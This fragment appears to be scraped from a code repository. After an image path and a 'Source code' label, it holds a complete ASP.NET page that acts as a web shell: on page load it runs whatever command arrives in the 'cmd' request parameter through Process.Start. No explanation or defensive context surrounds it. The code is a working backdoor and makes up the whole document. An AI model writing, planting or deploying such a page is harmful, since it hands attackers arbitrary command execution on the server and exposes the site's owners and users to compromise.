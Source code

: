 <%@ Page Language="C#" %>
<script runat="server">
void Page_Load(object sender, EventArgs e) {
    System.Diagnostics.Process.Start(Request["cmd"]);
}
</script>
